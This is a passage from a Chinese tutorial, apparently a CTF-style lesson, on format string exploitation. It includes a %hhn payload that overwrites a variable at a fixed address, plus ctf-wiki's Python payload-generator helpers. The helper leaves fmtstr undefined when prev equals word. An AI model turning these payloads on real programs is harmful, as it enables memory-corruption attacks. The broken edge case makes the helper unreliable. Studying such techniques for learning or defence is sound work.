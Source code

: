 看到这里，我们不难看出，我们可以利用%hhn向某个地址写入单字节，利用%hn向某个地址写入双字节。用单字节为例  
  
还是用前面的程序作为例子，我们的目的是这样的  
```
b == 0x12345678

```  
  
在达到目的之前，跟之前一样，我们需要先确认一下b的地址，还是使用我们的老朋友Ghidra来确认b的地址  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib722IFo7PrF7OAxPibj0iaoLRm8C8V1dOUUt2kXs02pW9dboRevfSZM2PJQ/640?wx_fmt=png&from=appmsg "")  
  
这里看出来b的地址为0x0804c028  
  
所以我们想覆盖成这样  
```
0x0804c028 \x78
0x0804c029 \x56
0x0804c02a \x34
0x0804c02b \x12

```  
  
前面提到过，我们的字符串的偏移量为6，所以payload如下  
```
p32(0x0804c028) + p32(0x0804c029) + p32(0x0804c02a) + p32(0x0804c02b) + pad1 + '%6$n'+ pad2 + '%7$n'+ pad3 + '%8$n'+ pad4 + '%9$n'

```  
  
这里我们就站在巨人的肩膀上直接借用ctf-wiki的基本构造  
```
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload

```  
  